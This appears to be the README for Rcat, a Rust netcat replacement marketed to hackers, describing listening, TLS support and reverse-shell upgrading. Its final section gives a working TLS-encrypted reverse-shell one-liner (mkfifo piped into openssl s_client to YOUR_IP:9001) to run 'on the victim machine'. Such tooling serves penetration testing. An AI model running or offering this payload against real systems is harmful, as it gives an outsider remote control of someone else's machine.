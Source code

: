 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
(Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probably use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

Then execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```
